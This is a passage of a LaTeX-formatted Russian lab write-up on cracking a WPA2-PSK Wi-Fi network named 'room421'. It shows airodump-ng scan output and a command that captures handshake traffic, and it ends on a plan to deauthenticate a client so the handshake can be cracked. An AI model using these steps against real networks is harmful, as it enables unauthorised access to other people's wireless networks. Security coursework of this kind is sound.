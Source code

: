 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                            
                                                  
 (not associated)   2C:D0:5A:A4:AB:E0    0    0 - 1      0       13                                                                   
 (not associated)   B4:52:7E:92:5C:8A  -84    0 - 1      0        1                                                                   
 D8:5D:4C:DA:F8:2E  FC:F8:AE:DA:5D:18  -55   24 - 5      0     3872                                                                   
 60:A4:4C:3B:80:20  80:56:F2:E0:3D:61  -77    1e- 1e   449      408     
		\end{lstlisting}
		
		Интересующая нас сеть:
		\begin{lstlisting}
 D8:5D:4C:DA:F8:2E  -32      194     4025  263   5  54 . WPA2 CCMP   PSK  
 room421   
		\end{lstlisting}
		Запустим сбор трафика для получения аутентификационных сообщений:
		\begin{lstlisting}
		sba@sba-Lenovo-G580:~$ sudo airodump-ng mon1 --write airdump --bssid D8:5D:4C:DA:F8:2E  -c 5

 CH  5 ][ Elapsed: 28 s ][ 2016-05-21 13:11 ][ fixed channel mon1: -1                                         
                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                  
 D8:5D:4C:DA:F8:2E  -31 100      264     8822  498   5  54 . WPA2 CCMP   PSK  room421                                                
                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                           
                                                   
 D8:5D:4C:DA:F8:2E  FC:F8:AE:DA:5D:18  -56   11 -36     12     8578   
		\end{lstlisting}
		Произведем деаутентификацию одного из клиентов (клиента с MAC-адресом 
		C:F8:AE:DA:5D:18), до тех пор, пока не удастся собрать необходимых для 
		взлома аутентификационных сообщений.
\end{document}
